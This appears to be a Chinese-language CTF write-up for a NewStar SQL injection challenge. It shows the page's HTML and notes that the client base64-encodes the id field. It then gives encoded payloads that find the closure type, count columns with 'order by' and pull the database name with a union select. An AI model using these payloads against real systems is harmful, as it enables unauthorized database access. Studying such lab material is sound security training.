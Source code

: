 # Newstar_sql刷题

### 谢谢皮蛋

* 判断闭合方式
  尝试输入id为`1`，出现回显**（可以进行联合注入）**，使用HackBar，`LOAD`后发现`POST`启用
  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-28-203150.png)

  查看源代码
  ```html
  <body>
    <div id="login-container">
      <img src="wipher.jpg" alt="Login Image">
      <form id="login-form" method="post" action="">
        <input type="text"  id="id" name="id" placeholder="input ID" class="input">
        <button type="submit" onclick="submitForm()" class="login-button">Search</button>
      </form>
    </div>
  
    <script>
      function submitForm() {
        var id = document.getElementById('id').value;
        id = btoa(id);
        document.getElementById('id').value = id;
        document.getElementById('login-form').submit();
      }
    </script>
  ```

  `<form id="login-form" method="post" action="">`确定用户输入的id通过POST上传
  `id = btoa(id);`确定输入的id经过base64加密上传至服务器
  开始判断闭合方式
  `payload：id=MVw=`（id=1\）,出现报错

  ```mysql
  You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\ LIMIT 0,1' at line 1
  ```

  **可以判断这里是数字型注入，无闭合**

* 判断列数

  ```mysql
  payload：
  id=MSBvcmRlciBieSAx		//id=1 order by 1
  id=MSBvcmRlciBieSAy		//id=1 order by 2
  id=MSBvcmRlciBieSAz		//id=1 order by 3 报错
  ```

* 联合注入爆库名
  `payload：id=bnVsbCB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgp`
  （ id=null union select 1,database() ）
  得到当前库名为：**ctf**
